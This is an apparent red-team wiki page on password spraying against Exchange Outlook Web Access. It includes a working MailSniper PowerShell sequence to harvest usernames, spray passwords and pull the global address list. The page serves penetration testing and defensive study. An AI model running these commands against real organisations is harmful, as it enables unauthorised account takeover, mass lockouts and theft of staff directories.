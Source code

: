 
# 📧 Email Password Spraying
---

> [!CAUTION]
> **Please RTFM carefully.**
>
> This technique can lock a large amount of - *even all* - domain accounts. Be careful to not perform to much attempts on the same usernames or ensure to know the enforced password policy first.

#### 🤓 RTFM

This technique consists in leveraging a Microsoft Exchange instance to perform either [user spraying](/docs/active-directory/recon/user-spraying.html), [brute-forcing](/docs/active-directory/initial-access/brute-force.html) or [password spraying](/docs/active-directory/initial-access/password-spraying.html).

#### 📝 Prerequisites

* Microsoft Exchange is deployed in the target domain.
* Outlook Web Access is reachable.

#### 🛠️ Do it!

You can use [MailSniper](https://github.com/dafthack/MailSniper) PowerShell module for every steps.

> [!NOTE]
> To build your `usernames.txt` list, several ways are possible:
> - If you already have an initial authenticated access to the domain, you can [retrieve domain users](/docs/active-directory/enumeration/users.html).
> - Otherwise, you can perform [user spraying](/docs/active-directory/recon/user-spraying.html) to validate usernames exist in the domain. 
> - Finally, you can use OSINT tools like [linkedin2username](https://github.com/initstring/linkedin2username).
>
> Usernames often have the same nomenclature like `f.lastname` or `firstname.lastname`. To generate possible usernames based on first name and last name, use [namemash.py](https://gist.github.com/superkojiman/11076951). Anyway, you should first ensure to know the correct terminology before starting password spraying. 

```powershell
Import-Module ./MailSniper.ps1

# Enumerate the target.
Invoke-DomainHarvestOWA -ExchHostname mail.$Domain

# Spray usernames.
Invoke-UsernameHarvestOWA -ExchHostname mail.$Domain -Domain $Domain -UserList username.txt -OutFile .\correct.txt

# Once you identified correct usernames, spray passwords.
Invoke-PasswordSprayOWA -ExchHostname mail.$Domain -UserList .\correct.txt -Password $Password

# If you manage to discover valid credentials, you can download the global address list.
Get-GlobalAddressList -ExchHostname mail.$Domain -UserName $Domain\$Username -Password $Password -OutFile .\list.out
```

#### 🏆 What's next?

- If it is your first authenticated access to the domain, let's [enumerate](/docs/active-directory/methodology.html#-enumeration) it!
- [Active Directory privilege escalation](/docs/active-directory/methodology.html#-privilege-escalation) if you gained access to a low privileged domain account.
- [Active Directory persistence](/docs/active-directory/methodology.html#-persistence) if you found a privileged domain account credentials.
- Otherwise, try another method to get an [initial access](/docs/active-directory/methodology.html#-initial-access).